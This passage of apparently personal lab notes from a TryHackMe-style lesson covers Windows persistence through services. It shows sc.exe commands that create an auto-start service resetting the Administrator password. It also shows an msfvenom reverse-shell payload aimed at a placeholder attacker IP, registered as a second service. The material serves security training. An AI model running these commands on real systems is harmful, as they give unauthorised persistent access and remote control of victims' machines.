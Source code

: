 We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe create {THMservice} binPath= "net user Administrator Passwd123" start= auto
sc.exe start {THMservice}
```

**Note:** 
	There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT={port.number} -f exe-service -o {rev-svc.exe}
```
 ![[Pasted image 20240910033314.png]]

Copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:
```
sc.exe create {THMservice2} binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start {THMservice2}
```

